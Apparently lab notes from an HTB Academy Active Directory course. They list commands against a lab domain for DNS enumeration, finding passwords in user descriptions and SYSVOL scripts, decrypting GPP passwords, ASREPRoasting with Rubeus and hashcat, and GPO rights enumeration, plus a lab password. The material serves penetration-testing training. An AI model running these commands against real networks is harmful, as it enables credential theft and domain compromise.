 
## DNS Enum

#### Domain Enumeration within AD Domain
```shell-session
Tachipy@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```
#### Using the -r Option to Resolve Unknown Records

  Using the -r Option to Resolve Unknown Records

```shell-session
Tachipy@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```
## Password in Description
---
#### Finding Passwords in the Description Field using Get-Domain User

  Finding Passwords in the Description Field using Get-Domain User

```powershell-session
PS C:\htb> Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```
## PASSWD_NOTREQD Field

#### Checking for PASSWD_NOTREQD Setting using Get-DomainUser

```powershell-session
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```
## Credentials in SMB Shares and SYSVOL Scripts

#### Discovering an Interesting Script

```powershell-session
PS C:\htb> ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```
#### Finding a Password in the Script
```powershell-session
PS C:\htb> cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs
```
#### Decrypting the Password with gpp-decrypt

```shell-session
Tachipy@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```
#### Locating & Retrieving GPP Passwords with CrackMapExec

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb -L | grep gpp
```
#### Using CrackMapExec's gpp_autologin Module

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```
## ASREPRoasting
#### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
#### Retrieving AS-REP in Proper Format using Rubeus

```powershell-session
PS C:\htb> .\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
```
#### Cracking the Hash Offline with Hashcat

```shell-session
Tachipy@htb[/htb]$ hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```
#### Retrieving the AS-REP Using Kerbrute

```shell-session
Tachipy@htb[/htb]$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
#### Hunting for Users with Kerberoast Pre-auth Not Required
```shell-session
Tachipy@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```
## Group Policy Object (GPO) Abuse
#### Enumerating GPO Names with PowerView

```powershell-session
PS C:\htb> Get-DomainGPO |select displayname
```
#### Enumerating GPO Names with a Built-In Cmdlet

  Enumerating GPO Names with a Built-In Cmdlet

```powershell-session
PS C:\htb> Get-GPO -All | Select DisplayName
```
#### Enumerating Domain User GPO Rights

```powershell-session
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```
#### Converting GPO GUID to Name

  Converting GPO GUID to Name

```powershell-session
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```